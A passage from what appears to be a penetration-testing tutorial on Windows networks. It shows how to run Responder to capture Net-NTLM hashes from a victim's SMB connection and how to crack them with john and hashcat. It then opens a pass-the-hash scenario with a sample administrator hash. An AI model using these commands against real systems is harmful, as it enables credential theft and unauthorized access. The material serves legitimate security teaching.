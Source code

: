 ```sh
pip3 install netifaces
```

```sh
git clone https://github.com/lgandx/Responder.git
```

Start responder on the network interface shared with the victim
```sh
cd Responder
```

```sh
sudo python3 Responder.py -I eth0
```

From the victim machine, connect back to the linux host
```sh
C:\Users\Quickemu\Downloads> dir \\192.168.122.1\test
Access is denied.
```

This will leak the Net-NTLM hash of the user to the service.

It is then possible to crack such hash.

For Net-NTLMv1
- John
```sh
john --format=netntlm --wordlist=rockyou.txt hash.txt
```

- Hashcat
```sh
hashcat -m 5500 -a 3 hash.txt
```

For Net-NTLMv2
- John
```sh
john --format=netntlmv2 --wordlist=rockyou.txt hash.txt
```

- Hashcat
```sh
hashcat -m 5600 -a 3 hash.txt
```

This is also discussed in:
- Windows Privesc 13 - Windows Hashes

### Scenario 7 - Pass the Hash Attack (PTH)

Let's say that we have managed to obtain the NTLM hashes of one of our users. It is possible to give such hash to SMB in order to authenticate as the user via a so-caleld `pass-the-hash` attack.

Consider for the example the following NTLM hash
```sh
administrator:2B576ACBE6BCFDA7294D6BD18041B8FE
```
